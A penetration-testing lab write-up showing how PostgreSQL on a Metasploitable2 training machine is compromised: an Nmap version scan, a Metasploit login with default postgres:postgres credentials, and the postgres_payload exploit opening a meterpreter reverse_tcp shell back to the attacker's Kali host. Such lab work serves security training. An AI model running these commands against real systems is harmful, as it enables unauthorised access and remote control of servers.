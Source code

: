# Exploiting PostgreSQL Database Service

PostgreSQL is a powerful, open-source relational database system widely used in various applications and environments. Instances of PostgreSQL can often be vulnerable due to default configurations, weak credentials, or known software vulnerabilities, potentially allowing unauthorized access to sensitive data or even remote code execution.

In this lab, we will explore methods to exploit the PostgreSQL service running on the Metasploitable2 target machine. Our objective is to gain unauthorized access to the database, which may lead to data exfiltration or system compromise.

We will begin by verifying the service and version with Nmap, then proceed to enumerate its users/credentials or search for specific exploits in Metasploit to gain access.

## 1. Network Configuration

* **Metasploitable2 (Target IP):** `192.168.100.10`
* **Kali Linux (Attacker IPs):**
    * `192.168.100.5` (for attacking Metasploitable2)
    * `172.24.129.21` (for SSH access)

## 2. Exploitation Steps

### 2.1: Service Enumeration (Nmap Scan)

* **Objective:** Confirm the presence and version of the PostgreSQL database service on the target machine, which typically runs on port 5432.

* **Command Executed:**
    ```bash
    sudo nmap -sV -p 5432 192.168.100.10
    ```

* **Results:**
    The Nmap scan confirmed that port `5432` was open on `192.168.100.10`. The service running on this port was identified as **PostgreSQL**, along with its version number, 8.3.0-8.3.7.

    ![PostgreSQL Nmap Scan Result](images/PostgreSQL_Scan.png) 

### 2.2: Metasploit Exploit / Auxiliary Search (or Credential Guessing)

* **Objective:** Launch Metasploit and search for available modules (exploits or auxiliary modules) related to PostgreSQL, or attempt to guess default/common credentials.

* **Commands Executed:**
    ```bash
    msfconsole
    search postgres
    ```

* **Results:**
The search identified several PostgreSQL-related modules, including scanners and exploits. Given the objective of gaining database access, the auxiliary/scanner/postgres/postgres_login module was chosen to attempt authentication using common default credentials, as this is a frequent vulnerability on test systems.

![Metasploit Search/Login Attempt](images/PostgreSQL_Search_Login.png)

### 2.3: Configure and Execute the Exploit / Auxiliary Module

* **Objective:** Configure the chosen Metasploit module (exploit or auxiliary) to target `192.168.100.10` and proceed with the attack.

* **Commands Executed:**


    ```bash
   use auxiliary/scanner/postgres/postgres_login
   set RHOSTS 192.168.100.10
   set USERNAME postgres
   set PASSWORD postgres
   show options
   run
   ````
    

* **Results:**
    The postgres_login module successfully authenticated to the PostgreSQL database using the default credentials postgres:postgres. The output Login Successful: postgres:postgres@template1 confirmed valid access.

    ![Exploit/Module Run Result](images/PostgreSQL_Exploit_Run.png)


### 2.4: Leveraging Authenticated Access for a Shell (PostgreSQL Payload)

* **Objective:** Utilize the obtained postgres:postgres credentials to execute a reverse shell payload on Metasploitable2 via the PostgreSQL service, aiming for a system shell.

* **Commands Executed:**
    ```bash
    use exploit/linux/postgres/postgres_payload
    set RHOSTS 192.168.100.10
    set PAYLOAD linux/x86/meterpreter/reverse_tcp  # Corrected payload
    set LHOST 192.168.100.5
    set LPORT 4445
    set USERNAME postgres
    set PASSWORD postgres
    show options
    exploit
    ```

* **Results:**
    Initially, the `cmd/unix/reverse` payload was attempted, but it was found to be incompatible with this specific exploit module, resulting in an "Exploit failed: cmd/unix/reverse is not a compatible payload" error. To resolve this, the `show payloads` command was used in Metasploit to list all compatible payloads for `exploit/linux/postgres/postgres_payload`.

    From the list of compatible payloads, `payload/linux/x86/meterpreter/reverse_tcp` was selected. This choice was based on the target system's architecture (Metasploitable2 is a 32-bit Linux system, indicated by `x86`) and the desire for a more robust and feature-rich Meterpreter session, which offers advanced post-exploitation capabilities compared to a basic command shell.

    Upon setting the correct payload and re-running the exploit, a Meterpreter session was successfully established:
   
    ![Exploit Run 2](images/Exploit_Payload.png) 